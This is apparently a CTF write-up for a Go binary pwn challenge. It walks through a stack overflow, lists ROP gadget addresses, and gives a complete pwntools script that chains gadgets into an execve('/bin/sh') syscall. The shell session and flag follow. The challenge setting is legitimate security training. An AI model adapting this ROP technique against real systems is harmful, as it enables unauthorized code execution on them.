





# Pwn Overflow More Often [992/3]

Many-Many-More reasons for you to love POMO! Port over your number with us today to  get a free gift of any gadget you want! Our telco backbone is powered by a super secure modern programming language which means you don't need  to worry about being hacked! Your data is definitely safe with us! 

`nc chals.ctf.sg 20201`

Author: violenttestpen

**Files**: [pomo](https://api.ctf.sg/file?id=ckm3lacvv0h9j0880qxmkwc8w&name=pomo)



This is a cheap writeup: it doesn't go far into the internals of the program, and is mostly a narration of my experiences with the challenge.

## Solving

The binary is a golang binary. I have absolutely no idea how it works.

Doesn't matter, because adding `cyclic(500)` seems to give RIP control easily enough (after `cyclic(cyclic_find('oaaa'))`:



I follow the method [outlined here](https://1ce0ear.github.io/2018/01/12/seccon2017-babystack/), and I do my best to look for gadgets in the binary. **Make sure to unpack the binary** (with `upx -d`) first, or you will waste a lot of time on fake gadgets like me.

These are the gadgets I found:

```c
ret: 0x49aa44
syscall: 0x4108db
pop rax; ret: 0x403c0d
pop rsi; ret: 0x4387be
pop rdx; ret: 0x4188e2
# no pop rdi; ret found !!!
0x000000000041003d: pop rdi; dec dword ptr [rax + 0x21]; ret;
0x0000000000457ca4: pop rdi; sete byte ptr [rsp + 0x10]; ret;
0x0000000000463f6f: mov qword ptr [rdi], rax; ret;
```

Between the two `pop rdi;` gadgets, I picked the `sete` one, because it only zeros out a single byte at `[rsp+0x10]`, and you can stick that next to a `pop rsi;` to save ROP space.



There's constant rw space at 0x541000 onwards, so I shoved `/bin/sh` at 0x541000.

My first attempt for the ROP chain had a ton of `'a'`s inside:



As it turns out, some of the padding bytes within `cyclic(cyclic_find('oaaa'))` are copied to the middle of the ROP chain:



Don't know why it happens, but I just shove the relevant parts of the ROP chain haphazardly inside:

```python
from pwn import *
r = remote('chals.ctf.sg', 20201)
ret = 0x49aa44
RAX = 0x403c0d
RSI = 0x4387be
RDX = 0x4188e2
SYSCALL = 0x4108db
RDI_WTF = 0x457ca4
scratch = 0x550000
MOV_QWORD = 0x463f6f
context.binary = 'pomo'

chain = fit(RAX, b'/bin/sh\0', RDI_WTF)
sidechain = fit(scratch, MOV_QWORD, RSI)
chain+= b'B'*0x18
chain+= fit(0, RDX, 0)
chain+= fit(RAX, 59, SYSCALL)

r.sendafter('no.: ', cyclic(cyclic_find(b'oaaa')).replace(b'gaaahaaaiaaajaaakaaalaaa', sidechain) + chain)
r.interactive()
```

The ROP chain here is semi-optimised for space; you need to observe where you can cut corners for it.

## Flag

```sh
[*] Switching to interactive mode
$ ls
bin
boot
dev
etc
home
lib
lib64
media
mnt
opt
proc
root
run
sbin
srv
sys
tmp
usr
var
$ cat /home/pomo/flag.txt
CTFSG{g@dg3tRy_W1z@rdry_tO_pWn_g0l@nG}$
```